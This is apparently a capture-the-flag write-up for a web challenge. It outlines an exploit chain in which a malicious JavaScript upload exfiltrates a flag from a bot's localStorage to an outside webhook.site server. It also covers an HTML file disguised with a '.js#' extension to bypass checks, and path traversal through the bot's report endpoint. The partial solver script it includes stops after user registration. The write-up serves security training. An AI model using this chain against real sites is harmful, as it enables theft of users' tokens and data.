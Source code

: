 We can upload arbitrary javascript file via the image upload and include it in our malicious html file.

---

## Exploitation

The exploit consists of the following steps:

1.  **Register**

2.  **Login**

3.  **Get userId via /api/user/me**  
    We need the userId to access our uploaded files via `/files/upload`.  

4.  **Upload a malicious JavaScript file that exfiltrates the flag from localStorage**  
    We upload a JavaScript file that will steal the flag from the bot's local storage and send it to a server we control. We can use any extension that's not blacklisted.

5.  **Upload a malicious HTML file disgused as a js file**  
    We upload an HTML file that will be used to trigger the XSS. This file will contain a `<script>` tag that points to the JavaScript file we uploaded in the previous step. We'll upload the the file with `.js#` extension so that we can access it via the `location ~ \.(css|js)$` nginx rule while bypassing the extension check in code.

6.  **Access the HTML file we have just uploaded to cache it**  
    Caching the file will allow accessing it omitting the fragment (with just `.js`). If we don't perform this step, and try sending the bot to url ending with `.js#`, the browser will ignore the trailing fragment when making the request.

7.  **Trigger the path traversal.**  
    We send a request to the bot's reporting endpoint with a specially crafted token `../files/upload/{user_id}/{html_id}.js`. This token will use path traversal to make the bot navigate to the HTML file we uploaded and cached.

---

## Solver Script

```python
import requests
import random
import string
import subprocess

BASE_URL = "http://127.0.0.1:8080"
API_URL = f"{BASE_URL}/api"
WEBHOOK_URL = "https://webhook.site/482b28b0-6ed4-466d-9855-a211694816e7"

# --- Helper Function ---
def generate_random_string(length):
    """Generates a random alphanumeric string of a given length."""
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

# --- Main Script ---
def main():
    s = requests.Session()
    username = generate_random_string(6)
    password = generate_random_string(6)
    credentials = {"username": username, "password": password}
    print(f"[*] Generated credentials: {credentials}")

    # --- Step 1: Register User ---
    print("\n[1] Registering user...")
    register_url = f"{API_URL}/user/register"
    r = s.post(register_url, json=credentials, timeout=5)
```